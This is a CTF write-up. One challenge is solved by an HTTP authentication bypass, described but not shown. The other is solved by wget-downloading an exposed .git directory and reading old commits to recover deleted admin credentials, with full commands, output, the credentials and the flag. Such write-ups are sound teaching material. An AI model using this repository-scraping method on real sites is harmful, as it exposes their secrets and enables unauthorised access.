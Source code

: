 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory <br/>
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/ <br/>
root@cloudshell: ls<br/>
172.105.76.128  <br/>
root@cloudshell: cd 172.105.76.128/<br/>
root@cloudshell:/172.105.76.128 ls -a<br/>
.  ..  .git<br/>
root@cloudshell:/172.105.76.128 cd .git/<br/>
root@cloudshell:/172.105.76.128/.git ls <br/>
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects<br/>
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs <br/> refs<br/>
// let's check the commits<br/>
root@cloudshell:/172.105.76.128/.git git reflog<br/>
2e3e1a8 HEAD@{0}: commit: Refining<br/>
89329fa HEAD@{1}: commit: NewFeature<br/>
dfecece HEAD@{2}: commit: Addinfo<br/>
b032cf8 HEAD@{3}: commit: Disable<br/>
5b9e491 HEAD@{4}: commit: DelCr<br/>
457168f HEAD@{5}: commit: AddUsetting<br/>
b55d897 HEAD@{6}: commit: editconf<br/>
70ae358 HEAD@{7}: commit (initial): initials<br/>
// i have check this commits one by one and i found <br/>
root@cloudshell:/172.105.76.128/.gitgit show 2e3e1a8<br/>
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254<br/>
Author: Ben ALaa <a.alaa@egcert.eg><br/>
Date:   Thu Nov 14 23:18:26 2019 +0100 <br/>

    Refining 
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 3d7f801..706d93b 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -420,15 +420,6 @@ CONFIG = array(<br/>
 'overwriteprotocol' => '',<br/>
<br/>
 /** <br/>
- * Override webroot<br/>
- * ownCloud attempts to detect the webroot for generating URLs automatically.<br/>
- * For example, if `www.example.com/owncloud` is the URL pointing to the<br/>
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it<br/>
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs. <br/>
- <br/>
-'overwritewebroot' => '',<br/>
-<br/>
-/<br/>
   Override condition<br/>
   This option allows you to define a manual override condition as a regular<br/>
   expression for the remote IP address. The keys `overwritewebroot`,<br/>
// this show us the path of admin log in is /S3cR3tPaTh/<br/>
root@cloudshell:/172.105.76.128/.gitgit show 5b9e491<br/>
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b<br/>
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100<br/>
<br/>
    DelCr<br/>
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 46ed4f3..72e9842 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -194,7 +194,7 @@ CONFIG = array(<br/>
 'knowledgebaseenabled' => true,<br/>
<br/>
 /** <br/>
- * Enables or disables avatars or user profile photos<br/>
+ /* Enables or disables avatars or user profile photos<br/>
  * `true` enables avatars, or user profile photos, `false` disables them.<br/>
  * These appear on the User page, on user's Personal pages and are used by some apps<br/>
  * (contacts, mail, etc).<br/>
@@ -469,15 +469,7 @@ CONFIG = array(<br/>
<br/>
<br/>
<br/>
-<br/>
- Admin Credentials<br/>
-<br/>
-'Admin_Login' => 'Administrator' <br/><br/>
-'Admin_Password' => 'FN3ym@bZNaF&'<br/><br/>

///////////////////////////////////////////////////////////////// <br/>
admin = Administrator <br/>
password = FN3ym@bZNaF& <br/>
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0} <br/>
sorry if something it's not clear <br/>
////////////////////////////////////////////////////////////////// <br/>

